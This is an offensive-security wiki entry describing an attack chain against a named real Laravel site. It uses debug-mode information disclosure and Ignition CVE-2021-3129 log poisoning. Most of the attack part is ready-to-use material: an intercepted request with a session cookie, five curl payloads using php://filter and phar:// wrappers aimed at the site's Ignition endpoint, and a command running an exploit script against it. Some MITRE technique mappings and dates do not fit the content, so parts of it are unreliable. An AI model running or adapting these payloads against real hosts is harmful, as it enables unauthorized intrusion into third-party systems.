

---
tags:
  - laravel
  - debug-mode
  - information-disclosure
  - rce
  - ignition
  - cve-2021-3129
  - log-poisoning
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
  - '[[tools/curl]]'
  - '[[tools/CVE-2021-3129-Python-Script]]'
tactics:
  - '[[Discovery]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
  - PHP
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Discover-Laravel-Debug-Mode-via-Password-Reset]]'
  - '[[procedures/Attempt-RCE-via-Ignition-Log-Poisoning-with-Curl]]'
  - '[[procedures/Execute-Python-Exploit-Script-for-CVE-2021-3129]]'
step_count: 3
techniques:
  - '[[Hardware]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[Windows Command Shell]]'
updated_at: '2025-12-14T17:25:17.638Z'
description: >-
  Multi-stage attack exploiting Laravel debug mode for information disclosure
  and attempting remote code execution via CVE-2021-3129 in the Ignition module,
  limited to info leak due to patching.
skill_level: intermediate
impact_level: high
id: f2488b32-b4fa-4233-bc96-1849edbcb67b
validated: true
mitre_tactics:
  - '[[Discovery]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Hardware]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[Windows Command Shell]]'
---
# Information Disclosure via Laravel Debug Mode and Patched RCE Attempt via Ignition Log Poisoning

Multi-stage attack chain targeting a Laravel application with debug mode enabled, leading to sensitive information exposure and an attempted remote code execution via the Ignition debug module, though the target version (8.83.27) is patched against CVE-2021-3129, limiting impact to reconnaissance.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/curl]]
- [[tools/CVE-2021-3129-Python-Script]]

### Target Environment

- Web application running Laravel 8.x (debug mode enabled, Ignition module present)
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Direct internet access to target host (e.g., https://mpos.mtn.co.sz)

### Initial Access Requirements

- No credentials required (unauthenticated)
- Network position: External attacker
- Prior access needed: None

## Detailed Attack Procedures

### Step 1: Discover Debug Mode
procedure: [[procedures/Discover-Laravel-Debug-Mode-via-Password-Reset]]

**Objective**: Access the password reset endpoint to trigger and intercept Laravel debug output, confirming APP_DEBUG=true and extracting stack traces, file paths, and configuration details.

**Instructions**: Navigate to the target site and request the password reset page using [[tools/Burp-Suite]] for interception. Use the following HTTP GET request:

```http
GET /srvgtw001/merchant/password/reset HTTP/1.1
Host: mpos.mtn.co.sz
Cookie: cookiesession1=678B28894C92B8E298EA67025D4086C2
Cache-Control: max-age=0
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```

Intercept with [[commands/burp-intercept-password-reset]] in Burp Suite and examine the response for debug information.

**Expected Output**: HTML response containing Laravel debug page with stack traces, version (8.83.27), file paths (e.g., /srvgtw001/), and config details.

**Success Indicators**:
- Presence of "Whoops, looks like something went wrong" debug page
- APP_DEBUG=true confirmed in output
- Sensitive paths and configs exposed

### Step 2: Attempt RCE via Log Poisoning
procedure: [[procedures/Attempt-RCE-via-Ignition-Log-Poisoning-with-Curl]]

**Objective**: Exploit the Ignition module by poisoning the laravel.log file with PHP payloads using PHP stream filters, then attempt execution via phar:// wrapper or decoding chains, though patched in target version.

**Instructions**: Use [[commands/curl-ignition-log-poisoning-setup]] to clear logs:

```bash
curl -XPOST -H'Content-Type: application/json' -d '{"solution":"Facade\\\Ignition\\\Solutions\\\MakeViewVariableOptionalSolution","parameters":{"variableName":"test","viewFile":"AA"},}' https://mpos.mtn.co.sz/_ignition/execute-solution
```

Follow with [[commands/curl-ignition-payload-injection]] to inject base64-encoded PHP payload:

```bash
curl -XPOST -H'Content-Type: application/json' -d '{"solution":"Facade\\\Ignition\\\Solutions\\\MakeViewVariableOptionalSolution","parameters":{"variableName":"test","viewFile":"php://filter/write=convert.iconv.utf-8.utf-16le|convert.quoted-printable-encode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"},}' https://mpos.mtn.co.sz/_ignition/execute-solution
```

Inject UTF-16 aligned payload with [[commands/curl-utf16-payload-injection]]:

```bash
curl -XPOST -H'Content-Type: application/json' -d '{"solution":"Facade\\\Ignition\\\Solutions\\\MakeViewVariableOptionalSolution","parameters":{"variableName":"test","viewFile":"=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=70=00=4E=00=41=00=51=00=41=00=41=00=41=00=67=00=41=00=41=00=41=00=42=..."},}' https://mpos.mtn.co.sz/_ignition/execute-solution
```

Trigger decoding with [[commands/curl-trigger-payload-execution]]:

```bash
curl -XPOST -H'Content-Type: application/json' -d '{"solution":"Facade\\\Ignition\\\Solutions\\\MakeViewVariableOptionalSolution","parameters":{"variableName":"test","viewFile":"php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"},}' https://mpos.mtn.co.sz/_ignition/execute-solution
```

Attempt phar execution with [[commands/curl-phar-execution-attempt]]:

```bash
curl -XPOST -H'Content-Type: application/json' -d '{"solution":"Facade\\\Ignition\\\Solutions\\\MakeViewVariableOptionalSolution","parameters":{"variableName":"test","viewFile":"phar://../storage/logs/laravel.log"},}' https://mpos.mtn.co.sz/_ignition/execute-solution
```

**Expected Output**: Error responses indicating log manipulation; no RCE due to patch, but confirms Ignition accessibility.

**Success Indicators**:
- HTTP 200/500 responses from /_ignition/execute-solution
- Log file poisoning successful (verifiable if further access)
- No command execution output (patched version)

### Step 3: Execute Python Exploit Script
procedure: [[procedures/Execute-Python-Exploit-Script-for-CVE-2021-3129]]

**Objective**: Run an automated Python script to chain the debug disclosure with Ignition exploitation for RCE, confirming patch status.

**Instructions**: Download the script using [[commands/download-python-exploit]] (implied wget/curl), then execute with target host:

```bash
python CVE-2021-3129.py https://mpos.mtn.co.sz
```

The script automates log poisoning and execution attempts via Ignition.

**Expected Output**: Script output showing failed RCE due to patch, but successful info gathering from debug mode.

**Success Indicators**:
- Script completes without errors
- Confirms Laravel version and patch status
- Extracts any additional debug info

## Attack Chain Summary

### Key Achievements

1. Exposed sensitive Laravel configuration and paths via unauthenticated debug output
2. Demonstrated Ignition module accessibility for potential log poisoning
3. Verified patch against CVE-2021-3129, limiting to info disclosure impact

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Hardware]] Gather Victim Host Information: Software
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Windows Command Shell]] Windows Command Shell (adapted for PHP execution)

### MITRE ATT&CK Tactics

- [[Discovery]] Discovery
- [[Execution]] Execution

---

*Last updated: 2023-10-01T00:00:00Z*
